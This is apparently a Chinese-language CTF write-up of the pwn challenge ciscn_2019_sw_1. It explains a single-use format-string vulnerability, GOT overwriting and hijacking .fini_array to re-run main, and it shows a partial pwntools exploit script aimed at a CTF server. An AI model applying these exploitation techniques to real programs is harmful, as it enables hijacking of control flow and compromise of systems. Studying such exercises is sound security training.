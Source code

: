 # ciscn_2019_sw_1

栈上的格式化字符串漏洞，但是只能用一次，不能用多了

重温目前已知的解法：

**1.改got表，通常是改printf在got表中的真实地址为system_plt(这题给了后门函数，否则也需要泄露libc地址来计算system的地址)，再发送'/bin/sh\x00'**

**2.改got表/返回地址为one_gadget（需要泄露libc地址计算基址）**

**3.改malloc_hook为one_gadget，让printf输出大量字符触发malloc（同样要泄露libc地址计算基址）**

无论何种解法，只用一次printf肯定是不够的，怎么多次利用呢？

![image-20210423124226845](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746995.png)

main函数在程序**执行后都会进入fini_array**

![img](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746463.png)

![image-20210423131159252](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746860.png)

简单地说，在main函数前会调用.init段代码和`.init_array`段的函数数组中每一个函数指针（从0到n）。同样的，main函数结束后也会调用.fini段代码和`.fini._arrary`段的函数数组中的每一个函数指针（从n到0）。

而我们的目标就是修改**.fini_array数组的第一个元素为start或者main函数地址**。需要注意的是，只能重新执行一次main函数，而不能无限循环。原因见下：

首先，在IDA中可以通过ctrl+s看到各个段的地址

![image-20210423131034287](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746070.png)

![image-20210423131232360](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746872.png)

![image-20210423131833596](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746460.png)

![image-20210423131859275](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746953.png)

原理就是这样，劫持.fini_array数组，使我们能够再次执行main函数。由于执行次数的限制(2次)，所以我们需要一次性修改fini_array和printf_got，第二次main函数时getshell

解题过程记录如下：

先随便输入一个11，如下图，可见输入内容为格式化字符串第四个参数

![image-20210423175156222](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041746782.png)

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
#p = process('./pwn')
e = ELF('./pwn')
p = remote('node3.buuoj.cn', 27517)
p.recvuntil("Welcome to my ctf! What's your name?\n")
fini_array = 0x0804979C
main_addr = 0x08048534
system_plt_addr = e.plt['system']
printf_got_addr = e.got['printf']
main_addr_low_bytes = main_addr & 0xffff
main_addr_high_bytes = (main_addr >> 16) & 0xffff
system_plt_low_bytes = system_plt_addr & 0xffff
system_plt_high_bytes = (system_plt_addr >> 16) & 0xffff
print("main_addr:" + hex(main_addr))
print("main_addr_low_bytes:" + hex(main_addr_low_bytes))
print("main_addr_high_bytes:" + hex(main_addr_high_bytes))
print("system_plt_addr:" + hex(system_plt_addr))
print("system_plt_low_bytes:" + hex(system_plt_low_bytes))
```
